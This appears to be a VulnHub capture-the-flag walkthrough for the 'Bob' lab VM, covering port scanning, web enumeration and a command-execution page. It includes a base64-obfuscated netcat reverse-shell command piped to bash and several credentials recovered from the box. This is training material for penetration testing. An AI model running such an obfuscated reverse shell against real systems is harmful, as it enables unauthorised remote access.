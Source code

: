 ```yaml
---
categories: [VulnHub, Walkthrough]
tags: [PrivEsc]
---
```

# Bob


## **Description ⤵️**


> 💡 Difficulty: Beginner/Intermediate → [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it's not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
    ---<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hidding the ssh port from changing it is good stategy !)
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let's try the reverse shell Now →

```bash
command ->
**echo** "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" **|** base64 -d **|** **bash**
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc		:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

Harpocrates was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)

```bash
And I got this credential →
bob	:	b0bcat_
```

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
---